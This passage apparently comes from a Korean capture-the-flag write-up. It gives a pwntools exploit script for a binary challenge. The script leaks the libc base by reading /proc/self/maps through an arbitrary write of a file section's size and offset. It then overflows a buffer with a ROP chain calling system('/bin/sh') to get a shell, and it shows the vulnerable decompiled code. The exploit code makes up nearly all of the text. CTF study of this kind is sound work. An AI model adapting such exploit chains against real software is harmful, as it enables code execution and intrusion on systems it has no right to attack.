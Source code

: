 ```python
  p.sendlineafter(': ', hash)
  
def info():
  p.sendlineafter('> ', 'info')

pause()

# Leak libc_base
payload = b'\x0f\x00\x00\x00\x28\x00\x00\x00/proc/self/maps' # 섹션 size, offset AAW
#make(payload, '1111', '7a2d4788e97071e906dad3f3d17b4da9')
make(payload, '1111', 'fb9320fe1fb5ef25759c9bb313b51289')
select_list(0)
info()

proc_maps = p.recvuntil('[vdso]').decode()
libc_base = proc_maps.split('libc.so.6')[0]
libc_base = libc_base.split('\n')
libc_base = libc_base[len(libc_base)-1]
libc_base = libc_base.split('-')[0].replace('-', '')

libc_base = int(libc_base, 16)
print(hex(libc_base))

pop_rdi = libc_base + 0x2a3e5
system = libc_base + 0x50D60
bin_sh = libc_base + 0x1d8698
stderr = libc_base + 0x21a6a0
ret = libc_base + 0x5d5b7

# ROP exploit
rop = b'\x90' * 64 + p64(stderr) # fclose() 정상 실행 시키기 위해서 stream을 stderr로 AAW
rop += b'\x90' * (88 - len(rop) + 8)
rop += p64(ret) + p64(pop_rdi) + p64(bin_sh) + p64(system)

print(len(rop))
payload = b'\x90\x01\x00\x00\x28\x00\x00\x00' # 섹션 size, offset AAW
#make(payload, rop, 'a1add03f2387becccf5f90473dfbc7c7')
make(payload, rop, 'f0f4fa7f78a8a62b0edf6cd426c7e3e1')
select_list(1)
info()

p.interactive()
```

기존 파일의 4번째 섹션인 로그 섹션의 offset과 size를 AAW 함으로써 `info()` 과정에서 BOF를 일으킨다.

```python
if ( n == 4 )
  {
    printf("COMMANDLOGFILE PATH: %s\n", v4);
    fd = open(v4, 0);
    if ( fd == -1 )
    {
      puts("No LogFile found.");
      return fclose(stream);
    }
```
